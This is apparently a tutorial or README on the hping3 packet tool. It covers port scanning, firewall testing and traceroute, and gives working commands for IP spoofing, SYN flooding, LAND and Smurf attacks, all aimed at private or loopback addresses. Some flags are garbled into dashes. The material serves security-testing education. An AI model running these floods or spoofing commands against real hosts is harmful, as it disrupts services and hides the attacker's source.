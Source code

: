 
`hping3` is a **command-line network security tool** used for **scanning, testing, and troubleshooting** networks. It allows users to **craft and send custom TCP, UDP, ICMP, and raw IP packets**, making it useful for **firewall testing, port scanning, intrusion detection system (IDS) testing, and denial-of-service (DoS) attack simulations**.`

It is similar to the standard `ping` command but **far more powerful**, as it enables advanced packet manipulation and supports various protocols beyond just ICMP.


**Port Scanning** – Checks which ports are open on a target system.   
**Firewall Testing** – Detects firewall rules and security configurations.  
**IP Spoofing** – Sends packets with a fake source IP address.  
**DoS Attack Simulation** – Generates high-traffic floods to test system resilience.   
**Traceroute Functionality** – Maps the network path of packets using TCP instead of ICMP.  
**Packet Crafting** – Allows full customization of network packets (flags, payloads, timing, etc.).


`hping` sends **custom network packets** to a target and analyzes the response. Based on the type of response (or lack thereof), it can infer information about:

- **Open/closed ports**
- **Firewall rules**
- **Network latency**
- **System uptime**
- **Routing paths**

Unlike `ping`, which only sends ICMP Echo Requests, `hping` can send packets using **TCP, UDP, ICMP, or raw IP**, making it useful for both **legitimate security testing and malicious attacks** (ethical hacking, penetration testing).


Use Sudo

---

 **1. Check if a host is online (like ping but with more control)**

```bash
hping3 -1 192.168.1.1
```

- `-1`: Sends **ICMP Echo Requests** (like `ping`).

 
**2. Perform a TCP SYN Scan (detect open ports)**

```bash
hping3 --scan 1-65535 192.168.1.1 -S --rand-source
```

- `-S`: Sends **SYN packets** to test check for open ports from random source IP addresses.
  
 **3. Spoof Source IP Address (IP Spoofing)**

```bash
hping3 -S -p 443 -a 10.10.10.10 192.168.1.1
```

- `-a 10.10.10.10`: Fake source IP **(spoofing attack simulation)**.


 **4. Simulate a Denial-of-Service (DoS) attack**

```bash
sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.1
```

This command is a hping3 command that sends a high volume of TCP SYN packets to the specified IP address on port 80. 

Here’s a breakdown of the command and what each option does:

- **-c 15000** : Specifies the number of packets to send. In this case, 15,000 packets will be sent.
  
- **-d 120** : Specifies the data size in the packets being sent. In this case, the data size is set to 120 bytes.
  
- **-S** : Sets the SYN flag in the TCP packet header, indicating the start of a TCP connection.
  
- **-w 64** : Sets the TCP window size to 64, which determines how much data can be sent at once before receiving an acknowledgment.
  
- **-p 80** : Specifies the destination port for the packets being sent. In this case, port 80 is being targeted, which is commonly used for HTTP traffic.
  
-  **— flood** : Enables flooding mode, which sends packets as fast as possible without waiting for responses.
  
-  **— rand-source** : Uses a random source IP address for each packet sent, making it more difficult to trace the source of the traffic.

---

 **5. Perform a TCP Traceroute**

```bash
hping3 --traceroute -S -p 80 192.168.1.1
```

- `--traceroute`: Maps **network path** using **TCP instead of ICMP**.

**6. LAND Attack**

```bash
hping3 -S -p 80 127.0.0.1 -a 127.0.0.1
```

- This is a kind of DoS (Denial of Service) attack in which a packet is sent to a target machine with the same address.

**7. SMURF Attack:**

```bash
 hping3 — icmp — flood 127.0.0.1 -a 127.0.0.1
```

- This is a kind of DDoS attack in which spoofed source address send a large amount of ICMP packets to the target address. It uses a victim address as a source address to send/broadcast the multiple ICMP ping request.


**Random Source Attack**

```bash
hping3 -S -p 80 Target — flood — rand-source
```

 - An attacker can send multiple random packets with different source addresses to the target machine which may cause the Distributed denial of service attack. It is difficult to identify the actual source address after an incident occurs.
  
---

